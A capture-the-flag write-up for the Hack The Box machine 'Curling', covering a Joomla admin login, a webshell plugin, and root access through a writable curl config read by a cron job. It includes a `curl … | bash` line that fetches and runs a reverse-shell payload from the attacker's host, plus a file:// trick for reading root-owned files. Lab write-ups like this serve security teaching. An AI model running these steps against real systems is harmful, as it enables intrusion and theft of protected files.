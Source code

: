# Curling

**Date**: 13/06/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Curling](https://app.hackthebox.com/machines/Curling)

***

Let’s start testing the connection with the target machine:

<figure><img src="../../.gitbook/assets/curling0.png" alt=""><figcaption></figcaption></figure>

We receive back the packet, so we have connection. Let’s scan the open TCP ports:

<figure><img src="../../.gitbook/assets/curling1.png" alt=""><figcaption></figcaption></figure>

The scan discovered 2 open TCP ports: 22 (ssh) and 80 (http). Let’s try to obtain the service and version running in these ports:

<figure><img src="../../.gitbook/assets/curling2.png" alt=""><figcaption></figcaption></figure>

We got OpenSSH 7.6p1 running in the port 22.

<figure><img src="../../.gitbook/assets/curling3.png" alt=""><figcaption></figcaption></figure>

According to launchpad, the target machine should be a Ubuntu Bionic.

And we have an Apache 2.4.29 service running in the port 80. We can also see that is hosting a Joomla. Let’s try to obtain more info of the website using whatweb:

<figure><img src="../../.gitbook/assets/curling4.png" alt=""><figcaption></figcaption></figure>

It doesn’t give us additional useful information. Let’s see how the website looks:

<figure><img src="../../.gitbook/assets/curling5.png" alt=""><figcaption></figcaption></figure>

It looks very simple. There are 3 post written by the user Super User. There is something in the first post that catches my eye, the word `curling2018`. It looks like a password maybe? The post is also signed by Floris, maybe that could be a username?It worth the try.

<figure><img src="../../.gitbook/assets/curling6.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/curling7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/curling8.png" alt=""><figcaption></figcaption></figure>

Nope, at least not that combination of user and password. I also tried with `admin` and `administrator` usernames.

Let’s see the source code to see if we can obtain the Joomla version:

<figure><img src="../../.gitbook/assets/curling9.png" alt=""><figcaption></figcaption></figure>

secret.txt? weird… It would be a file accessible?

<figure><img src="../../.gitbook/assets/curling10.png" alt=""><figcaption></figcaption></figure>

Yes… it is. Maybe we can try to login again using that string as a password.

I tried, with no success. The way this string looks… maybe is coded in b64?

<figure><img src="../../.gitbook/assets/curling11.png" alt=""><figcaption></figcaption></figure>

Yeah! Let’s try again:

<figure><img src="../../.gitbook/assets/curling12.png" alt=""><figcaption></figcaption></figure>

Woho! We succeded login with the credentials!

We seen that the SSH port was open, let’s try to use this credentials to gain access to the target machine:

<figure><img src="../../.gitbook/assets/curling14.png" alt=""><figcaption></figcaption></figure>

Ok, this credentials are not valid for the SSH connection.

Let’s see if we can access to the administration panel of the Joomla:

<figure><img src="../../.gitbook/assets/curling15.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/curling16.png" alt=""><figcaption></figcaption></figure>

Yup! Let’s see if we can see the version:

<figure><img src="../../.gitbook/assets/curling17.png" alt=""><figcaption></figcaption></figure>

As we are inside the administration panel, maybe we can install a webshell or a reverse shell php file… Let’s investigate.

After a research, I found this github repo:

[https://github.com/p0dalirius/Joomla-webshell-plugin](https://github.com/p0dalirius/Joomla-webshell-plugin)

It contains a Joomla extension that we can upload to the website and it will give us a webshell. Pretty cool!

So, let’s follow all the instructions! And try to execute a command!

<figure><img src="../../.gitbook/assets/curling18.png" alt=""><figcaption></figcaption></figure>
Yeah! We succesfully executed the `ls` command!

Let’s see if we can ping out machine from the target machine:

<figure><img src="../../.gitbook/assets/curling19.png" alt=""><figcaption></figcaption></figure>

Yes we can! Let’s try to establish a revshell to operate more easily:

First of all, I’m going to create a `pwn` file in my system with the payload to establish a reverse shell and share it using a http server:

<figure><img src="../../.gitbook/assets/curling20.png" alt=""><figcaption></figcaption></figure>

Now, I’m going to execute a command that will read that file from my computer and will pipe it to the bash, executing the command:

`curl 10.10.14.234/pwn | bash`

but URL encoded:

`curl%2010.10.14.234%2Fpwn%20%7C%20bash`

<figure><img src="../../.gitbook/assets/curling21.png" alt=""><figcaption></figcaption></figure>

And we obtained a revshell.

<figure><img src="../../.gitbook/assets/curling22.png" alt=""><figcaption></figcaption></figure>

We have no permissions to read the user flag, but we can read the password\_backup file:

<figure><img src="../../.gitbook/assets/curling23.png" alt=""><figcaption></figcaption></figure>

Let’s copy it in our machine:

<figure><img src="../../.gitbook/assets/curling24.png" alt=""><figcaption></figcaption></figure>

It looks like an hexadecimal version of something, let’s try to get the original file:

`xxd -revert password_backup password_backup_original`

<figure><img src="../../.gitbook/assets/curling25.png" alt=""><figcaption></figcaption></figure>

Ok, we got a bzip2 file. Let’s decompress it using bzip2 tool:

<figure><img src="../../.gitbook/assets/curling26.png" alt=""><figcaption></figcaption></figure>

And… now we have a gzip file… let’s rename it and decompress it:

<figure><img src="../../.gitbook/assets/curling27.png" alt=""><figcaption></figcaption></figure>

And… another bzip2 file… let’s decompress it:

<figure><img src="../../.gitbook/assets/curling28.png" alt=""><figcaption></figcaption></figure>

Now a POSIX tar. Let’s decompress it too:

<figure><img src="../../.gitbook/assets/curling29.png" alt=""><figcaption></figcaption></figure>

Finally a txt file!

Ok, it’s a strange password, but let’s try to use it to login as `floris` via SSH:

<figure><img src="../../.gitbook/assets/curling30.png" alt=""><figcaption></figcaption></figure>

Yeah, we are in! Let’s read the user flag:

<figure><img src="../../.gitbook/assets/curling31.png" alt=""><figcaption></figcaption></figure>

Now we have to escalate our privileges… Let’s start looking if we have sudo privileges:

<figure><img src="../../.gitbook/assets/curling32.png" alt=""><figcaption></figcaption></figure>

Nothing. Let’s look for SUID binaries:

<figure><img src="../../.gitbook/assets/curling33.png" alt=""><figcaption></figcaption></figure>

None of them (except polkit) can be used to escalate… Let’s look for binaries with capabilities:

<figure><img src="../../.gitbook/assets/curling34.png" alt=""><figcaption></figcaption></figure>

Nothing useful. Maybe there is a cronjob?

<figure><img src="../../.gitbook/assets/curling35.png" alt=""><figcaption></figcaption></figure>

Nope. Maybe can we edit something that is in the PATH?

<figure><img src="../../.gitbook/assets/curling36.png" alt=""><figcaption></figcaption></figure>

Ok, I’m out of ideas, so let’s go back to the initial point. There is a folder we have not inspected yet.

The modification date of the files was suspicious, I waited a minute to confirm that they are being updated each minute.

<figure><img src="../../.gitbook/assets/curling37.png" alt=""><figcaption></figcaption></figure>

Nice moment to use pspy to see what’s going on.

<figure><img src="../../.gitbook/assets/curling38.png" alt=""><figcaption></figcaption></figure>

each minute, the input file is being overwritten and after that, a curl command is being executed. I’m sure I can use this to escalate or, at least, to read the /root/root.txt flag.

<figure><img src="../../.gitbook/assets/curling39.png" alt=""><figcaption></figcaption></figure>

the `-K` option reads the config from input file.

<figure><img src="../../.gitbook/assets/curling40.png" alt=""><figcaption></figcaption></figure>

The input is pointing to [localhost](http://localhost) IP.

Ok, so I think that there are some possibilities:

1. Try to edit the content of `input` file after the script that executes each minute does it and before the automatic `curl` command.
2. Try to redirect the [localhost](http://localhost) to other folder instead of `/var/www/http`
3. Try to include a file into the web the curl is requesting that only root has access to (/root/root.txt)

Let’s start with the first one.

<figure><img src="../../.gitbook/assets/curling41.png" alt=""><figcaption></figcaption></figure>

After looking to the pspy a while, we can recognize some scripts being executed:

* `/bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input` : This script is waiting 1 second, and then, copying the content of the file **default.txt** inside the **input** file
* `curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report` : This script is doing a **curl** to the url inside the **input** file and saving the response inside the file **report**

I’m thinking that, as the first script is waiting 1 second before executing the curl, maybe is executing after the curl script. This would mean that if we edit the input file, the curl may use our URL instead of the default one? Let’s try.

As `curl` accepts the `url="file//path-to-file"` parameter, we can point to `/root/root.txt` hoping the flag is there. If it’s there and this script is executing first, we should copy the content of the flag into the `report` file. We have to be fast, as after 1 minute, the cult command will use the default input file and will overwrite the report file.

<figure><img src="../../.gitbook/assets/curling42.png" alt=""><figcaption></figcaption></figure>

So, I have changed the content of `input`. As can be seen in the bottom of the image, after the change, the report remains as the webpage content.

<figure><img src="../../.gitbook/assets/curling43.png" alt=""><figcaption></figcaption></figure>

After a minute I performed a `cat report` command, and voila! We got the root flag content.
